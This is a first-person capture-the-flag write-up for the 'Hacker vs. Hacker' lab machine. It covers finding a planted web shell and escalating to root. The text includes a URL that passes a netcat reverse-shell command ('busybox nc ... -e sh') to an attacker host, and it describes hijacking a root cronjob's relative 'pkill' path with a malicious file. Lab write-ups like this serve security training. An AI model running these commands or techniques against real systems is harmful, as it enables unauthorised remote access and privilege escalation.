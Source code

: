 # Hacker vs. Hacker

### Hacker vs. Hacker
Nmap scan shows ports 22 and 80 open. The source code of the main webpage shows the presence of a `/csv` directory:<br />
![image](https://github.com/user-attachments/assets/8dc997ce-8542-4ec0-933d-af2ce39c21c6)<br />
On the bottom of the page there's an `upload cv` feature, which redirects to an `upload.php` page. The source code fo this page contains a hint:<br />
![image](https://github.com/user-attachments/assets/1f74367f-0670-4aac-9716-aac4e0601022)<br />
So my guess is that the hackers uploaded a shell inside `/cvs/`. I started enumerating manually, and I swear to god I didn't expect to find it, but I found the shell at `http://10.10.199.192/cvs/shell.pdf.php`. I was really lucky. I'm gonna use it to spawn a reverse shell.<br />
I open a netcat listener on port 9001 and browse `http://10.10.199.192/cvs/shell.pdf.php?cmd=busybox nc 10.14.90.188 9001 -e sh`. But something weird happens. When I try to access the rest of the file system, I get blocked with a "nope" message:<br />
![image](https://github.com/user-attachments/assets/35b0d8f4-2b3d-49b2-ba89-8a9f21780cdc)<br />
This got me user.txt. Inside the home directory of the user, I can read the bash_history file:<br />
![image](https://github.com/user-attachments/assets/2696502b-1d1e-4219-8ddd-d7a5d88ab061)<br />
Also, I understand now why I can't stabilize my shell:<br />
![image](https://github.com/user-attachments/assets/6b1cb1ed-afc9-4773-a276-e973c48bb1b7)<br />
Essentially I can't even connect with ssh, even if I know the password. Basically since the PATH variable of this cronjob starts at `/home/lachlan/bin`, and since the command performed by root executes `pkill` with the relative path, I can exploit this and
create a file called `pkill` inside `/home/lachlan/bin`, but this time it will contain a reverse shell to me. So I put a reverse shell in a local file called `pkill`, and then run `scp pkill lachlan@10.10.199.192:bin/` using the password saw in the history file. The problem now is that this file is not executable, I have to give it execute permission. <br />
I don't know if it's the best way, but I joined ssh and I used that 2 seconds time span that I had before I got kicked to run `chmod +x bin/pkill`. The command is executed, and I get the reverse root shell! 





